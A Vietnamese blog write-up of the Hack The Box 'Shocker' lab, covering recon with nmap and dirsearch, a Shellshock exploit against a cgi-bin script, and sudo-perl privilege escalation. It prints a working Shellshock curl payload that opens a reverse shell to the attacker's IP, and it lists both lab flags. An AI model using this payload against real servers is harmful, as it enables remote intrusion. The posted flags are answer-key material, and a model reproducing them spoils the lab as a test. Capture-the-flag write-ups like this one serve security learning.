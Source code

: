 ```yaml
---
title: Shocker
Date: 2025-01-07
category: Hack The Box/Easy
tags:
  - HTB
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))

![Screenshot](/assets/htb/Pasted image 20250107002756.png)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`.

![Screenshot](/assets/htb/Pasted image 20250107003411.png)

Vẫn là port 80 quen thuộc. Truy cập web thôi.

![Screenshot](/assets/htb/Pasted image 20250107005044.png)

Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.

![Screenshot](/assets/htb/Pasted image 20250107003800.png)

Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.

![Screenshot](/assets/htb/Pasted image 20250107005222.png)

Ây da, lòi ra một file `.sh`.

![Screenshot](/assets/htb/Pasted image 20250107005233.png)

Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.

![Screenshot](/assets/htb/Pasted image 20250107013223.png)

Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)

Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.

![Screenshot](/assets/htb/Pasted image 20250107014136.png)

May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.

![Screenshot](/assets/htb/Pasted image 20250107015655.png)

Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)

Flag 2: `bb1604537f6b21a35dab9402628b959a`.
